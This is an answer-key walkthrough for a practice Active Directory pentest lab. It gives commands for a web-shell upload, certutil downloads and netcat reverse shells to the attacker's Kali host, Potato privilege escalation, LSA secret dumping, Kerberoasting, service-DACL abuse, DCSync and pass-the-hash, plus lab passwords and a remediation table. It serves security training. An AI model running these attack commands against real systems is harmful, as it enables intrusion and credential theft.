

# Answer Key: Full Walkthrough

> [!CAUTION]
> **Spoilers.** This document gives away the entire attack path. Attempt the lab with [SCENARIO.md](SCENARIO.md) and [HINTS.md](HINTS.md) first.

Throughout, `KALI=192.168.56.50`. Flags are random per build, so they aren't listed here.

---

## Attack Path at a Glance



| # | Host | Vulnerability | Result |
|---|------|---------------|--------|
| 1 | SANDIEGO | Unrestricted upload (client-side extension check, server trusts `Content-Type`) | Web shell as app pool identity |
| 2 | SANDIEGO | `SeImpersonatePrivilege` on service account | SYSTEM |
| 3 | SANDIEGO | Autologon password stored as LSA secret | `g.zeppeli : Ny0h0h0!Valkyrie` |
| 4 | Domain | Kerberoastable service account with a weak password | `svc_tusk : valkyrie` |
| 5 | MONUMENTVALLEY | svc_tusk ∈ Remote Management Users | WinRM shell |
| 6 | MONUMENTVALLEY | Service DACL grants svc_tusk `SERVICE_CHANGE_CONFIG` | Local admin |
| 7 | MONUMENTVALLEY | Hard-coded credentials in an admin script | `d.brando : Sc4ryM0nst3rs!` |
| 8–9 | Domain | `d.brando` GenericAll → `Race Officials` WriteDacl → domain | DCSync |
| 10 | PHILADELPHIA | Pass-the-Hash with the Administrator NT hash | Domain Admin |

### Credentials Reference

| Account | Password | How it's obtained | Role in lab |
|---------|----------|-------------------|-------------|
| `SBR\g.zeppeli` | `Ny0h0h0!Valkyrie` | LSA secret on SANDIEGO | First domain creds |
| `SBR\svc_tusk` | `valkyrie` | Kerberoast + rockyou | MS02 foothold |
| `SBR\d.brando` | `Sc4ryM0nst3rs!` | `C:\RaceOps\Sync-Riders.ps1` on MS02 | ACL path to DA |
| `SBR\p.loco` | `Lucky#Horseshoe#1890!` | AS-REP roastable, **won't crack** | Red herring |
| `SBR\svc_sql` | `Philly#Ledger-1890-Rac3!` | Kerberoastable, **won't crack** | Red herring |
| `SBR\w.kepipo` | `Naples1890!` | In AD description, **account disabled** | Red herring |
| `SBR\f.valentine` | `D1rtyD33dsD0neDirtCheap!` | Not intended to be recovered (DA) | Flavor |

---

## 0. Reconnaissance

```bash
sudo ntpdate -u 192.168.56.10
nmap -Pn -sC -sV -p- --min-rate 2000 192.168.56.10-12 -oA nmap/all
```

Findings:
- **.10 PHILADELPHIA:** 53, 88, 135, 389, 445, 464, 636, 3268, 5985 … a Domain Controller for `steelballrun.local`.
- **.11 SANDIEGO:** **80 (IIS 10, "Steel Ball Run – Official Race Office")**, 445, 3389, 5985 (WinRM: open, but no credentials work here yet).
- **.12 MONUMENTVALLEY:** 445, 3389, 5985.

```bash
nxc smb 192.168.56.10-12                       # hostnames + domain, SMB signing info
nxc smb 192.168.56.10 -u '' -p '' --shares     # null session: denied
```

Add hosts to `/etc/hosts`:

```
192.168.56.10  philadelphia.steelballrun.local steelballrun.local philadelphia
192.168.56.11  sandiego.steelballrun.local sandiego
192.168.56.12  monumentvalley.steelballrun.local monumentvalley
```

### OSINT on the website

`http://192.168.56.11/` lists race officials with email addresses (`s.steel@`, `l.steel@`, `h.pants@`). That gives the username format **`first-initial.lastname`**. The "Riders to Watch" table supplies more names: Gyro Zeppeli, Johnny Joestar, Diego Brando, Pocoloco, and so on.

Optional username validation with kerbrute:

```bash
cat > users.txt <<EOF
s.steel
l.steel
h.pants
g.zeppeli
j.joestar
d.brando
pocoloco
p.loco
s.man
sandman
m.tim
f.valentine
EOF
kerbrute userenum -d steelballrun.local --dc 192.168.56.10 users.txt
```

> 🐟 **Red herring: AS-REP roasting.** `GetNPUsers` finds `p.loco` without pre-auth:
> ```bash
> impacket-GetNPUsers steelballrun.local/ -usersfile users.txt -no-pass -dc-ip 192.168.56.10
> hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt   # exhausts, no crack
> ```
> Pocoloco is lucky; you aren't. It's a good lesson in time-boxing a rabbit hole.

---

## 1. SANDIEGO: Foothold (`local.txt`)

`/register.aspx` takes a rider name, a horse name and a "horse photo".

- The **extension check is JavaScript only** (`checkPhoto()`).
- The **server only checks the multipart `Content-Type`** against `image/jpeg|png|gif`.
- Files are saved with their original name in **`/uploads/`**, and IIS executes `.aspx` there.

Upload Kali's ASPX web shell with a spoofed content type:

```bash
cp /usr/share/webshells/aspx/cmdasp.aspx horse.aspx
curl -s http://192.168.56.11/register.aspx \
  -F 'riderName=Gyro Zeppeli' -F 'horseName=Valkyrie' \
  -F 'horsePhoto=@horse.aspx;type=image/png' | grep -o 'uploads/[^"]*'
```

(In Burp: pick a real image in the browser, intercept, then change the filename to `horse.aspx` and the body to the shell. Keep `Content-Type: image/png`.)

Browse to `http://192.168.56.11/uploads/horse.aspx` and run `whoami`:

```
iis apppool\sbrregistration
```

Upgrade to a reverse shell:

```bash
# Kali
cp /usr/share/windows-resources/binaries/nc.exe .
python3 -m http.server 80 &
rlwrap nc -lvnp 4444
```
```
# In the web shell
certutil -urlcache -split -f http://192.168.56.50/nc.exe C:\Windows\Temp\nc.exe
C:\Windows\Temp\nc.exe 192.168.56.50 4444 -e cmd.exe
```

**local.txt:**
```
type C:\inetpub\local.txt
```

---

## 2. SANDIEGO: Privilege Escalation (`proof.txt`)

```
whoami /priv
...
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```

App pool identities hold `SeImpersonatePrivilege`, so a Potato attack gives SYSTEM. On Server 2022 use **GodPotato** (.NET 4 build) or **PrintSpoofer**:

```
certutil -urlcache -split -f http://192.168.56.50/GodPotato-NET4.exe C:\Windows\Temp\gp.exe
C:\Windows\Temp\gp.exe -cmd "C:\Windows\Temp\nc.exe 192.168.56.50 4445 -e cmd.exe"
```

On a second listener (`rlwrap nc -lvnp 4445`):

```
whoami
nt authority\system
type C:\Users\Administrator\Desktop\proof.txt
```

---

## 3. SANDIEGO: Looting Domain Credentials

Enumeration (winPEAS, or just looking) shows **autologon** is configured:

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
    AutoAdminLogon     REG_SZ    1
    DefaultUserName    REG_SZ    g.zeppeli
    DefaultDomainName  REG_SZ    SBR
```

There's no `DefaultPassword` value in the registry. It's stored as an **LSA secret**, which SYSTEM can dump:

```
reg save HKLM\SYSTEM   C:\Windows\Temp\system
reg save HKLM\SECURITY C:\Windows\Temp\security
reg save HKLM\SAM      C:\Windows\Temp\sam
```
```bash
# Kali
impacket-smbserver share . -smb2support -username a -password a
```
```
net use \\192.168.56.50\share /user:a a
copy C:\Windows\Temp\s* \\192.168.56.50\share\
```
```bash
impacket-secretsdump -system system -security security -sam sam LOCAL
...
[*] DefaultPassword
(Unknown User):Ny0h0h0!Valkyrie
```

Alternatively, using mimikatz as SYSTEM: `lsadump::secrets`, or `sekurlsa::logonpasswords` while Gyro is logged on at the console.

Combine the two: **`SBR\g.zeppeli : Ny0h0h0!Valkyrie`**.

```bash
nxc smb 192.168.56.10 -u g.zeppeli -p 'Ny0h0h0!Valkyrie'
# [+] steelballrun.local\g.zeppeli:Ny0h0h0!Valkyrie
```

> **Alternate route:** IIS app pool identities authenticate to the network as the **computer account** (`SANDIEGO$`). From the step-1 web shell, before any privesc, you could already Kerberoast with Rubeus (`Rubeus.exe kerberoast /nowrap`). That's a legitimate shortcut to step 4. Gyro's creds are still the cleanest way to drive tools from Kali.

---

## 4. Domain Enumeration & Kerberoasting

```bash
bloodhound-python -u g.zeppeli -p 'Ny0h0h0!Valkyrie' -d steelballrun.local \
  -ns 192.168.56.10 -c All --zip
# (or bloodhound-ce-python for BloodHound CE)

nxc ldap 192.168.56.10 -u g.zeppeli -p 'Ny0h0h0!Valkyrie' --users
```

Interesting things to note:
- `w.kepipo`'s description reads *"Temp password: Naples1890!"*, **but the account is disabled**. 🐟
- **Kerberoastable:** `svc_tusk` (`HTTP/tracker.steelballrun.local:8080`) and `svc_sql` (`MSSQLSvc/philadelphia…`).

```bash
impacket-GetUserSPNs steelballrun.local/g.zeppeli:'Ny0h0h0!Valkyrie' \
  -dc-ip 192.168.56.10 -request -outputfile tgs.hash

hashcat -m 13100 tgs.hash /usr/share/wordlists/rockyou.txt
# $krb5tgs$23$*svc_tusk$STEELBALLRUN.LOCAL$...:valkyrie
# svc_sql: exhausted (red herring)
```

In BloodHound, `svc_tusk` → **CanPSRemote** → `MONUMENTVALLEY`.

---

## 5. MONUMENTVALLEY: Foothold (`local.txt`)

```bash
evil-winrm -i 192.168.56.12 -u svc_tusk -p valkyrie
```
```powershell
whoami                       # sbr\svc_tusk
type C:\Users\svc_tusk\Desktop\local.txt
```

`whoami /priv` shows **no** SeImpersonate this time, so the MS01 trick won't work here.

---

## 6. MONUMENTVALLEY: Privilege Escalation (`proof.txt`)

Look around `C:\Program Files`:

```powershell
dir "C:\Program Files\Steel Ball Run\Corpse Tracker"
type "C:\Program Files\Steel Ball Run\Corpse Tracker\README.txt"
#  NOTE (h.pants): gave svc_tusk rights to restart/reconfigure the tracker service ...
```

Inspect the service:

```powershell
sc.exe qc CorpseTracker
#  BINARY_PATH_NAME : "C:\Program Files\Steel Ball Run\Corpse Tracker\CorpseTracker.exe"
#  SERVICE_START_NAME : LocalSystem

whoami /user                 # note your SID, S-1-5-21-...-1xxx
sc.exe sdshow CorpseTracker
#  D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)...(A;;CCDCLCSWRPWPDTLOCRRC;;;S-1-5-21-...-1xxx)S:(...)
```

That ACE grants svc_tusk **`DC` (SERVICE_CHANGE_CONFIG)**, **`RP` (start)** and **`WP` (stop)**. (winPEAS / PowerUp's `Get-ModifiableService` flag this too.)

Point the binary path at a command of your choice. The SCM runs it as **SYSTEM**:

```powershell
# Note: in PowerShell 'sc' is Set-Content - always type sc.exe
sc.exe config CorpseTracker binPath= "cmd.exe /c net localgroup Administrators SBR\svc_tusk /add"
sc.exe stop CorpseTracker
sc.exe start CorpseTracker
# [SC] StartService FAILED 1053 ... (expected: cmd.exe isn't a real service, but it ran)
```

Reconnect so the new group membership is in your token:

```bash
evil-winrm -i 192.168.56.12 -u svc_tusk -p valkyrie
```
```powershell
type C:\Users\Administrator\Desktop\proof.txt
```

> **Cleaner alternative:** point binPath at `C:\Users\Public\nc.exe 192.168.56.50 4446 -e cmd.exe` to get a SYSTEM shell directly. The SCM kills it after about 30 s, so migrate or spawn a second shell quickly.
>
> **Be a good tester:** restore the service afterwards:
> `sc.exe config CorpseTracker binPath= "\"C:\Program Files\Steel Ball Run\Corpse Tracker\CorpseTracker.exe\""`

---

## 7. MONUMENTVALLEY: Looting

As an administrator, a new folder at `C:\` is readable:

```powershell
dir C:\RaceOps
type C:\RaceOps\Sync-Riders.ps1
#  $user = 'SBR\d.brando'
#  $pass = ConvertTo-SecureString 'Sc4ryM0nst3rs!' -AsPlainText -Force
```

**`SBR\d.brando : Sc4ryM0nst3rs!`**

```bash
nxc smb 192.168.56.10 -u d.brando -p 'Sc4ryM0nst3rs!'
```

---

## 8–9. Domain Escalation via ACL Abuse

Mark `d.brando` as owned in BloodHound and check **Outbound Object Control**:

```
D.BRANDO ──GenericAll──▶ RACE OFFICIALS ──WriteDacl──▶ STEELBALLRUN.LOCAL
```

**Step 8: add Diego to Race Officials** (GenericAll on the group):

```bash
net rpc group addmem "Race Officials" d.brando \
  -U 'steelballrun.local/d.brando%Sc4ryM0nst3rs!' -S 192.168.56.10
# or
bloodyAD --host 192.168.56.10 -d steelballrun.local -u d.brando -p 'Sc4ryM0nst3rs!' \
  add groupMember 'Race Officials' d.brando
```

**Step 9: grant DCSync rights** (Race Officials has WriteDacl on the domain root):

```bash
impacket-dacledit -action write -rights DCSync -principal d.brando \
  -target-dn 'DC=steelballrun,DC=local' 'steelballrun.local/d.brando:Sc4ryM0nst3rs!'
# or
bloodyAD --host 192.168.56.10 -d steelballrun.local -u d.brando -p 'Sc4ryM0nst3rs!' \
  add dcsync d.brando
```

**DCSync:**

```bash
impacket-secretsdump 'steelballrun.local/d.brando:Sc4ryM0nst3rs!@192.168.56.10' -just-dc-user Administrator
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:<NT HASH>:::
```

---

## 10. PHILADELPHIA: Domain Admin (`proof.txt`)

```bash
evil-winrm -i 192.168.56.10 -u Administrator -H <NT HASH>
# or
impacket-psexec steelballrun.local/Administrator@192.168.56.10 -hashes :<NT HASH>
```
```
whoami          # sbr\administrator  (or nt authority\system with psexec)
type C:\Users\Administrator\Desktop\proof.txt
```

🏁 **The race is won. The domain is yours.**

---

## Remediation Summary (for your report)

| Finding | Severity | Remediation |
|---------|----------|-------------|
| Unrestricted file upload on `register.aspx` | Critical | Allow-list extensions server-side, validate file content (magic bytes), rename uploads to random names, store outside the web root or remove script handlers from `/uploads/`. |
| Service identity with SeImpersonate exposed to web code | High | Patch the upload bug; isolate web apps; consider a low-privilege, segmented web tier. (SeImpersonate is by design for service accounts.) |
| Autologon credentials in LSA secrets | High | Don't use autologon on servers. If required, use a dedicated, unprivileged local account. |
| Kerberoastable account with a weak password | High | Use gMSAs, or 25+ character random passwords for SPN accounts. Enforce AES-only encryption; monitor for TGS requests with RC4 (event 4769, enc type 0x17). |
| Weak service DACL on `CorpseTracker` | High | Remove SERVICE_CHANGE_CONFIG for non-admins; audit with `sc sdshow` / AccessChk. |
| Hard-coded credentials in scripts | High | Use gMSAs or a secrets vault, and rotate `d.brando`'s password. |
| ACL chain from a standard user to DCSync | Critical | Remove GenericAll from `d.brando` on `Race Officials` and WriteDacl from `Race Officials` on the domain. Audit regularly with BloodHound; alert on 4662 replication-rights use by non-DC accounts. |
| Passwords in AD description fields | Medium | Never store credentials in AD attributes readable by Authenticated Users. |
| Kerberos pre-auth disabled (`p.loco`) | Medium | Enable pre-authentication on all accounts. |

---

## Resetting After an Attempt

The easiest reset is to revert all VMs to the `clean` snapshot. To repair in place instead:

```powershell
# DC (as Domain Admin): remove d.brando from the group and strip DCSync rights
Remove-ADGroupMember 'Race Officials' -Members d.brando -Confirm:$false
# (re-run DC01-2-Configure.ps1 is NOT enough to remove added ACEs; use dsacls or revert the snapshot)

# MS02: remove svc_tusk from Administrators, then re-run MS02-2-Configure.ps1 to restore the service
Remove-LocalGroupMember Administrators -Member 'SBR\svc_tusk'

# MS01: delete uploaded shells
Remove-Item C:\inetpub\steelballrun\uploads\* -Force
```
